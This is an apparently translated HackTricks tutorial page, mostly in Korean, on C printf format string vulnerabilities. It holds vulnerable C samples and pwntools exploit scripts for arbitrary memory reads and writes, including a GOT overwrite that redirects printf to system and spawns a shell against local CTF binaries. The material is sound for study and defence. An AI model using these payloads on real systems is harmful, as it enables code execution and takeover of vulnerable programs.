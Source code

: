 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

C **`printf`**는 **문자열**을 **출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **형식 지정자가 포함된 원시 텍스트**입니다. **다음 매개변수**는 원시 텍스트의 **형식 지정자**를 **대체**할 **값**입니다.

다른 취약한 함수로는 **`sprintf()`**와 **`fprintf()`**가 있습니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 사용될 때** 발생합니다. 공격자는 **printf 형식** 문자열 기능을 악용하여 **어떤 주소(읽기/쓰기 가능한)**에서 **모든 데이터**를 읽고 **쓸 수 있는** **특별한 입력**을 만들 수 있습니다. 이렇게 해서 **임의 코드를 실행**할 수 있습니다.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:** 

* 취약한 예시:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 인수가 누락된 경우:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 취약점:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **포인터 접근**

형식 **`%<n>$x`**에서 `n`은 숫자로, printf에 스택에서 n번째 매개변수를 선택하도록 지시합니다. 따라서 printf를 사용하여 스택에서 4번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째부터 네 번째 매개변수까지 읽을 수 있습니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("%4$x")
```
and read directly the forth.

공격자가 `printf` **매개변수를 제어한다는 것은** 그의 입력이 `printf`가 호출될 때 스택에 존재한다는 것을 의미하며, 이는 그가 스택에 특정 메모리 주소를 쓸 수 있다는 것을 의미합니다.

{% hint style="danger" %}
이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`가 이를 접근하게 만들 수 있습니다**. 다음 섹션에서는 이 동작을 사용하는 방법이 설명될 것입니다.
{% endhint %}

## **임의 읽기**

형식 지정자 **`%n$s`**를 사용하여 **`printf`**가 **n 위치**에 있는 **주소**를 가져오고 **문자열처럼 출력**할 수 있습니다(0x00이 발견될 때까지 출력). 따라서 바이너리의 기본 주소가 **`0x8048000`**이고, 사용자 입력이 스택의 4번째 위치에서 시작된다는 것을 알고 있다면, 다음과 같이 바이너리의 시작 부분을 출력할 수 있습니다:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
입력의 시작 부분에 주소 0x8048000을 넣을 수 없다는 점에 유의하세요. 문자열은 해당 주소의 끝에서 0x00으로 잘리기 때문입니다.
{% endhint %}

### 오프셋 찾기

입력의 오프셋을 찾기 위해 4 또는 8 바이트(`0x41414141`)를 보낸 다음 **`%1$x`**를 추가하고 **값을 증가시켜** `A's`를 검색할 수 있습니다.

<details>

<summary>브루트 포스 printf 오프셋</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 유용성

임의 읽기는 다음과 같은 용도로 유용할 수 있습니다:

* **메모리에서** **바이너리**를 **덤프**하기
* **민감한** **정보**가 저장된 메모리의 특정 부분에 **접근**하기 (예: 이 [**CTF 챌린지**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)와 같이 카나리, 암호화 키 또는 사용자 정의 비밀번호)

## **임의 쓰기**

포맷터 **`%<num>$n`**은 **지정된 주소**에 **쓰기 바이트 수**를 **기록**합니다. 공격자가 printf를 사용하여 원하는 만큼의 문자를 쓸 수 있다면, 그는 **`%<num>$n`**을 사용하여 임의의 숫자를 임의의 주소에 쓸 수 있게 됩니다.

다행히도, 숫자 9999를 쓰기 위해 입력에 9999개의 "A"를 추가할 필요는 없으며, 대신 포맷터 **`%.<num-write>%<num>$n`**을 사용하여 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소**에 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
그러나 일반적으로 `0x08049724`와 같은 주소를 쓰기 위해 (한 번에 쓰기에는 엄청난 숫자임) **`$hn`**이 **`$n`** 대신 사용됩니다. 이는 **2바이트만 쓸 수 있게** 해줍니다. 따라서 이 작업은 주소의 가장 높은 2바이트와 가장 낮은 2바이트에 대해 각각 두 번 수행됩니다.

따라서 이 취약점은 **임의의 주소에 무엇이든 쓸 수 있게** 해줍니다.

이 예제에서 목표는 **나중에 호출될** **GOT** 테이블의 **함수**의 **주소**를 **덮어쓰는 것**입니다. 이는 다른 임의 쓰기를 악용하여 exec 기술을 사용할 수 있습니다:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

우리는 **사용자**로부터 **인수**를 **받는** **함수**를 **덮어쓰고**, 이를 **`system`** **함수**를 가리키게 할 것입니다.\
언급했듯이 주소를 쓰기 위해서는 일반적으로 2단계가 필요합니다: 먼저 주소의 2바이트를 쓰고, 그 다음에 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**이 사용됩니다.

* **HOB**는 주소의 2개의 높은 바이트를 호출합니다.
* **LOB**는 주소의 2개의 낮은 바이트를 호출합니다.

그런 다음, 포맷 문자열의 작동 방식 때문에 **먼저 더 작은** \[HOB, LOB]를 쓰고 그 다음에 다른 것을 써야 합니다.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 템플릿

이러한 종류의 취약점을 위한 익스플로잇을 준비하기 위한 **템플릿**은 다음에서 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

또는 [**여기**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)에서 이 기본 예제를 확인하세요:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

형식 문자열 취약점의 쓰기 작업을 악용하여 **스택의 주소에 쓰기** 및 **버퍼 오버플로우** 유형의 취약점을 악용할 수 있습니다.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 비트, no relro, no canary, nx, no pie, 스택에서 플래그를 유출하기 위한 형식 문자열의 기본 사용 (실행 흐름을 변경할 필요 없음)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 비트, relro, no canary, nx, no pie, win 함수로 `fflush` 주소를 덮어쓰는 형식 문자열 (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 비트, relro, no canary, nx, no pie, `.fini_array` 내의 main에 있는 주소를 쓰기 위한 형식 문자열 (흐름이 한 번 더 루프됨) 및 `strlen`을 가리키는 GOT 테이블의 `system` 주소를 쓰기. 흐름이 main으로 돌아가면, `strlen`이 사용자 입력으로 실행되고 `system`을 가리키면, 전달된 명령이 실행됩니다.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricks 지원하기

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**
{% endhint %}
